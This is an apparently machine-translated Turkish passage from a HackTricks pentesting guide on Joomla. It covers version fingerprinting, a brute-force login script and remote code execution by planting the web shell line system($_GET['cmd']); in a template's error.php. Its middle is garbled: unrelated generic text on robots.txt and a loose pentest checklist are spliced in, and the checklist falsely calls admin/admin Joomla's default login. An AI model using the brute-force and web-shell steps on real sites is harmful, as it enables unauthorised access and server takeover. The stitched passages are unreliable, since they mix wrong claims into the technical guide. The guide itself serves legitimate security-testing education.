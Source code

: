 # Joomla

<details>

<summary><strong>AWS hackleme becerilerini sıfırdan kahraman seviyesine öğrenmek için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>'ı öğrenin!</strong></summary>

* Bir **cybersecurity şirketinde** çalışıyor musunuz? **Şirketinizi HackTricks'te reklamını görmek** ister misiniz? veya **PEASS'ın en son sürümüne veya HackTricks'i PDF olarak indirmek** ister misiniz? [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family), özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu keşfedin.
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin.
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**'ı takip edin**.
* **Hacking hilelerinizi [hacktricks repo](https://github.com/carlospolop/hacktricks) ve [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)'ya PR göndererek paylaşın**.

</details>

### Joomla İstatistikleri

Joomla, Joomla kurulumlarında kullanılan Joomla, PHP ve veritabanı sürümlerinin ve sunucu işletim sistemlerinin dağılımı gibi bazı anonim [kullanım istatistikleri](https://developer.joomla.org/about/stats.html) toplar. Bu verilere, halka açık [API](https://developer.joomla.org/about/stats/api.html) aracılığıyla sorgu yapılabilir.
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Numaralandırma

### Keşif/Ayak İzi Alma

* **meta** etiketlerini kontrol edin.
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
# robots.txt

Robots.txt dosyası, web sitenizin arama motorları tarafından taranmasını istemediğiniz belirli sayfaları veya dizinleri belirtmek için kullanılır. Bu dosya, web tarayıcılarına ve arama motorlarına hangi sayfaların taranabileceğini ve hangilerinin taranamayacağını söyler.

Robots.txt dosyası, web sitenizin kök dizininde bulunmalıdır. Arama motorları, bu dosyayı tarayarak hangi sayfaların taranabileceğini belirler. Bu dosya, web sitenizin güvenlik açıklarını ortaya çıkarmamak için dikkatli bir şekilde yapılandırılmalıdır.

Örneğin, aşağıdaki robots.txt dosyası, tüm arama motorlarının /gizli-dizin/ sayfasını taranmasını engeller:

```
User-agent: *
Disallow: /gizli-dizin/
```

Bu dosya, "User-agent" alanında "*" kullanarak tüm arama motorlarını hedef alır ve "Disallow" alanında "/gizli-dizin/" dizinini engeller.

Robots.txt dosyası, web sitenizin güvenliğini artırmak için kullanılabilecek bir araçtır. Ancak, bu dosyanın tamamen güvenli olduğunu varsaymamalısınız. Bir saldırgan, bu dosyayı kullanarak web sitenizin yapısını ve potansiyel güvenlik açıklarını keşfedebilir. Bu nedenle, robots.txt dosyanızı düzenlerken dikkatli olmalı ve hassas bilgileri ifşa etmemelisiniz.
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt

# Joomla

Joomla, açık kaynaklı bir içerik yönetim sistemi (CMS) olan PHP tabanlı bir web uygulamasıdır. Joomla, kullanıcıların web sitelerini oluşturmasına, düzenlemesine ve yönetmesine olanak tanır. Bu bölümde, Joomla web uygulamalarını hedef alan pentesting tekniklerini öğreneceksiniz.

## Joomla Pentesting

Joomla web uygulamalarını pentest etmek için aşağıdaki adımları izleyebilirsiniz:

1. Joomla sürümünü belirleyin: Joomla sürümünü belirlemek, zayıf noktaları tespit etmek için önemlidir. Joomla sürümünü belirlemek için web sitesinin kaynak kodunu inceleyebilir veya Joomla'nın varsayılan dosya ve dizin yapısını kontrol edebilirsiniz.

2. Joomla'nın varsayılan kullanıcı adı ve şifresini değiştirin: Joomla'nın varsayılan kullanıcı adı "admin" ve şifresi "admin"dir. Bu nedenle, yönetici hesabının varsayılan kullanıcı adı ve şifresini değiştirmek güvenlik açısından önemlidir.

3. Joomla eklentilerini kontrol edin: Joomla, çeşitli eklentilere sahiptir ve bu eklentiler güvenlik açıklarına neden olabilir. Joomla web uygulamasını pentest etmeden önce, kullanılan eklentileri kontrol etmek ve güncellemeleri kontrol etmek önemlidir.

4. Joomla'nın güvenlik ayarlarını kontrol edin: Joomla'nın güvenlik ayarlarını kontrol etmek, web uygulamasının güvenliğini artırmak için önemlidir. Güvenlik ayarlarını kontrol etmek için Joomla'nın yönetici paneline erişebilir ve güvenlik ayarlarını inceleyebilirsiniz.

5. Joomla'nın veritabanını inceleyin: Joomla web uygulamasının veritabanını incelemek, kullanıcı bilgilerini ve diğer hassas verileri ortaya çıkarmak için önemlidir. Veritabanını incelemek için SQL enjeksiyonu ve diğer veritabanı saldırı tekniklerini kullanabilirsiniz.

6. Joomla'nın dosya ve dizin yapısını kontrol edin: Joomla'nın dosya ve dizin yapısını kontrol etmek, web uygulamasının güvenliğini değerlendirmek için önemlidir. Dosya ve dizin yapısını kontrol etmek için web sitesinin kaynak kodunu inceleyebilirsiniz.

7. Joomla'nın güvenlik açıklarını tespit etmek için otomatik araçlar kullanın: Joomla web uygulamalarını pentest etmek için otomatik araçlar kullanabilirsiniz. Bu araçlar, güvenlik açıklarını tespit etmek ve zayıf noktaları ortaya çıkarmak için kullanılabilir.

Bu adımları izleyerek Joomla web uygulamalarını pentest edebilir ve güvenlik açıklarını tespit edebilirsiniz. Ancak, pentest yaparken yasalara ve etik kurallara uymak önemlidir.
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Sürüm

* Joomla'nın sürümünü görmek için **/administrator/manifests/files/joomla.xml** dosyasına bakabilirsiniz.
* Joomla'nın sürümünü almak için **/language/en-GB/en-GB.xml** dosyasına bakabilirsiniz.
* Yaklaşık bir sürümü görmek için **plugins/system/cache/cache.xml** dosyasına bakabilirsiniz.

### Otomatik
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - Pentesting Web Methodology**](./#cms-scanners) bölümünde Joomla taraması yapabilen CMS tarayıcıları hakkında bilgi verilmektedir.

### Brute-Force

Giriş yapmak için brute force saldırısı yapmak için bu [script](https://github.com/ajnik/joomla-bruteforce) kullanılabilir.
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## Uzaktan Kod Yürütme (RCE)

Eğer **yönetici kimlik bilgilerine** sahip olduysanız, **RCE içinde** bulunmak için bir **PHP kodu parçacığı** ekleyebilirsiniz. Bunun için bir **şablonu özelleştirmemiz** gerekmektedir.

1. `Yapılandırma` altında sol alt köşede bulunan **`Şablonlar`** üzerine **tıklayın** ve şablon menüsünü açın.
2. **`Şablon`** sütunu başlığı altında **`protostar`** şablonunu seçin. Bu bizi **`Şablonlar: Özelleştir`** sayfasına götürecektir.
3. Son olarak, **sayfa kaynağını** açmak için bir sayfaya **tıklayabilirsiniz**. **`error.php`** sayfasını seçelim. Aşağıdaki gibi **PHP tek satırlık bir kod ekleyerek kod yürütme** yapacağız:
1. **`system($_GET['cmd']);`**
4. **Kaydet ve Kapat**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin!</summary>

* Bir **cybersecurity şirketinde** çalışıyor musunuz? **Şirketinizi HackTricks'te reklamını görmek** ister misiniz? veya **PEASS'ın en son sürümüne erişmek veya HackTricks'i PDF olarak indirmek** ister misiniz? [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuz olan özel [**NFT'leri**](https://opensea.io/collection/the-peass-family) keşfedin.
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin.
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter**'da beni takip edin 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Hacking hilelerinizi [hacktricks repo](https://github.com/carlospolop/hacktricks) ve [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)'ya PR göndererek paylaşın**.

</details>
